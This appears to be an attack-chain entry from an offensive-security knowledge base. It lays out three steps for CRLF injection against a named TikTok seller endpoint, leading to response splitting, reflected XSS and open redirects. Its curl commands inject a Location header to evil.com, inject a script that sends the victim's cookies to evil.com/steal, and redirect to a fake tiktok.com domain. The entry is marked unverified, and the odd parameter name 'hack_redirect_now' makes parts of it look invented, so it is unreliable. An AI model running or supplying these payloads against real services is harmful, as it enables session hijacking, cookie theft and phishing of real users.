

---
tags:
  - crlf-injection
  - http-response-splitting
  - xss
  - open-redirect
  - tiktok
type: attack_chain
tools: []
tactics:
  - '[[Initial Access]]'
  - '[[Collection]]'
verified: false
platforms:
  - Web
submitted: true
complexity: medium
created_at: '2023-10-01T00:00:00Z'
procedures:
  - '[[procedures/Test-for-CRLF-Injection-Vulnerability]]'
  - '[[procedures/Inject-CRLF-Payload-for-Response-Splitting]]'
  - '[[procedures/Exploit-Response-Splitting-for-XSS-and-Redirect]]'
step_count: 3
techniques:
  - '[[Exploit Public-Facing Application]]'
  - '[[JavaScript]]'
updated_at: '2025-12-14T17:24:38.842Z'
description: >-
  A web vulnerability exploitation chain demonstrating HTTP Response Splitting
  through CRLF injection in the TikTok seller endpoint, enabling Reflective XSS
  for cookie theft and open redirects to malicious tiktok.com domains.
skill_level: intermediate
impact_level: high
id: 21b1ca9a-ad0e-476e-b037-a046007c7f5f
validated: true
mitre_tactics:
  - '[[Initial Access]]'
  - '[[Collection]]'
mitre_techniques:
  - '[[Exploit Public-Facing Application]]'
  - '[[JavaScript]]'
---
---
id: 123e4567-e89b-12d3-a456-426614174000
name: CRLF Injection via TikTok Seller Endpoint Leading to Reflective XSS and Open Redirect
type: attack_chain
description: A web vulnerability exploitation chain demonstrating HTTP Response Splitting through CRLF injection in the TikTok seller endpoint, enabling Reflective XSS for cookie theft and open redirects to malicious tiktok.com domains.
verified: false
submitted: false
step_count: 3
created_at: 2023-10-01T00:00:00Z
updated_at: 2023-10-01T00:00:00Z
procedures: [[procedures/Test-for-CRLF-Injection-Vulnerability]], [[procedures/Inject-CRLF-Payload-for-Response-Splitting]], [[procedures/Exploit-Response-Splitting-for-XSS-and-Redirect]]
techniques: [[Exploit Public-Facing Application]], [[JavaScript]]
tactics: [[Initial Access]], [[Collection]]
tags: crlf-injection, http-response-splitting, xss, open-redirect, tiktok
platforms: Web
tools: []
---

# CRLF Injection via TikTok Seller Endpoint Leading to Reflective XSS and Open Redirect

Multi-stage attack chain demonstrating a complete attack workflow exploiting inadequate input validation in the TikTok seller endpoint.

## Chain Metrics Dashboard

| Metric | Value |
|--------|-------|
| Chain Status | Unverified |
| Total Steps | 3 |
| Execution Time | ~5 minutes |
| Skill Level | Intermediate |
| Complexity | Medium |
| Impact Level | High |

## Attack Flow Visualization



## Prerequisites & Requirements

### Required Tools

- [[commands/curl-crlf-injection]]

### Target Environment

- Web platform
- TikTok seller endpoint (publicly accessible)
- No specific ports required (HTTPS/443)

### Initial Access Requirements

- Network access to the internet
- No credentials needed (public endpoint)
- Prior access not required

## Detailed Attack Procedures

### Step 1: Access Endpoint and Test Parameter
procedure: [[procedures/Test-for-CRLF-Injection-Vulnerability]]

**Objective**: Identify the vulnerable 'hack_redirect_now' parameter by testing for inadequate input validation.

**Instructions**: Use [[commands/curl-basic-test]] to send a normal request to the TikTok seller endpoint and observe the response for any signs of direct parameter reflection.

```bash
curl -X GET "https://seller.tiktok.com/endpoint?hack_redirect_now=test" -v
```

Then, attempt a basic CRLF injection test with [[commands/curl-crlf-injection]] to check if the server processes newline characters without sanitization.

```bash
curl -X GET "https://seller.tiktok.com/endpoint?hack_redirect_now=test%0D%0A" -v
```

**Expected Output**: The response headers or body may show unsanitized output, indicating potential splitting (e.g., extra headers or malformed response).

**Success Indicators**:
- Parameter value reflected in response without encoding
- CRLF characters cause unexpected response structure (e.g., additional headers)

### Step 2: Inject CRLF Payload for Response Splitting
procedure: [[procedures/Inject-CRLF-Payload-for-Response-Splitting]]

**Objective**: Exploit the lack of input validation to inject CRLF sequences, splitting the HTTP response to inject custom headers or body content.

**Instructions**: Craft a payload using [[commands/curl-crlf-injection]] to inject a new header or body separator. For example, inject a fake Location header for redirect testing.

```bash
curl -X GET "https://seller.tiktok.com/endpoint?hack_redirect_now=%0D%0ALocation:%20https://evil.com%0D%0A" -v
```

Monitor the verbose output for evidence of response manipulation.

**Expected Output**: Server response includes injected headers, such as an unauthorized Location header, confirming splitting.

**Success Indicators**:
- Injected header appears in response (e.g., via -v flag showing multiple headers)
- Response body or redirect behavior altered

### Step 3: Exploit for XSS Cookie Theft or Open Redirect
procedure: [[procedures/Exploit-Response-Splitting-for-XSS-and-Redirect]]

**Objective**: Leverage the split response to deliver a Reflective XSS payload for stealing cookies or force an open redirect to a malicious tiktok.com domain.

**Instructions**: For XSS, inject a script tag using [[commands/curl-crlf-injection]] to split and inject JavaScript into the response body.

```bash
curl -X GET "https://seller.tiktok.com/endpoint?hack_redirect_now=%0D%0A%0D%0A<script>document.location='https://evil.com/steal?cookie='+document.cookie</script>" -v
```

For open redirect, target a fake tiktok.com domain:

```bash
curl -X GET "https://seller.tiktok.com/endpoint?hack_redirect_now=%0D%0ALocation:%20https://fake.tiktok.com/malicious" -v
```

Test in a browser to confirm XSS execution or redirect.

**Expected Output**: Browser alerts or redirects to the attacker-controlled site; cookies exfiltrated via network requests.

**Success Indicators**:
- JavaScript executes (e.g., alert or location change)
- User redirected to unauthorized domain
- Cookies captured on attacker's server

## Attack Chain Summary

### Key Achievements

1. Confirmed CRLF injection vulnerability in 'hack_redirect_now' parameter
2. Achieved HTTP Response Splitting to manipulate responses
3. Enabled Reflective XSS for session hijacking and open redirects for phishing

## Technique & Tactic Coverage

### MITRE ATT&CK Techniques

- [[Exploit Public-Facing Application]]
- [[JavaScript]]

### MITRE ATT&CK Tactics

- [[Initial Access]]
- [[Collection]]

---
*Last updated: 2023-10-01T00:00:00Z*
